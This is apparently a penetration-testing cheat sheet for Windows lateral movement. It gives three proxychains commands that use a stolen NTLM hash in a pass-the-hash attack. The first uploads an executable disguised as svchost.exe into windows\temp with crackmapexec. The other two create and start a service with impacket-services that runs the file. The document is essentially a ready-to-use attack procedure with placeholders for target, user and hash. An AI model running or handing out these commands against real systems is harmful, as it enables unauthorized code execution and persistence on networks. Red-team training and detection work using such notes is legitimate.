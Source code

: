 # Service Creation
- **Requires Valid User Hash**

## impacket-services

##### Transfer payload to target
```bash
proxychains crackmapexec smb [IP] -u [USER] -d [DOMAIN] -H aad3b435b51404eeaad3b435b51404ee:[HASH] --put-file '[PATH\TO\FILE.exe]' '\\windows\\temp\\svchost.exe'
```

##### Create the service
```bash
proxychains impacket-services [DOMAIN]/[USER]@[IP] -hashes aad3b435b51404eeaad3b435b51404ee:[HASH] create -name "[Service Name]" -display "[SHORT_NAME]" -path "c:\\windows\\system32\\cmd.exe /c c:\\windows\\temp\\svchost.exe"
```

##### Start the service
```bash
proxychains impacket-services [DOMAIN]/[USER]@[IP] -hashes aad3b435b51404eeaad3b435b51404ee:[HASH] start -name "Service Name"
```
